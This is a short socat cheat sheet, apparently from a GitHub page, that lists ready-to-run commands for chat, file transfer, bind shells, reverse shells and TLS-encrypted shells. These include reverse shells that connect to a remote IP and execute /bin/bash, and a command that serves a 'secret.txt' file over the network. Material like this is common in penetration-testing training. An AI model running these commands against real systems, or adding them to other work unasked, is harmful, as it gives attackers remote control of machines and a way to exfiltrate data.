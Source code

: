 ### Chat
```
socat - TCP4:192.168.1.4:80
socat TCP4-LISTEN:80 STDOUT
```

### Transferring files
```
socat TCP4-LISTEN:4444,fork file:secret.txt
socat TCP4:192.168.1.4:4444 file:recieved.txt,create
```

### Bind shell
```
socat TCP4-LISTEN:4444,fork EXEC:/bin/bash
socat - TCP4:192.168.1.4:4444
```

### Reverse shell
```
socat -d -d TCP4-LISTEN:4444 STDOUT  # for verbosity (-d -d)
socat TCP4:192.168.1.5:4444 EXEC:/bin/bash
```

### Generate certificate
```
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
cat bind_shell.key bind_shell.crt > bind_shell.pem
```

### Encrypted bind shell
```
socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
socat - OPENSSL:192.168.1.4:443,verify=0
```

### Encrypted reverse shell
```
socat - OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork
socat OPENSSL:10.11.0.4:443,verify=0 EXEC:/bin/bash
```
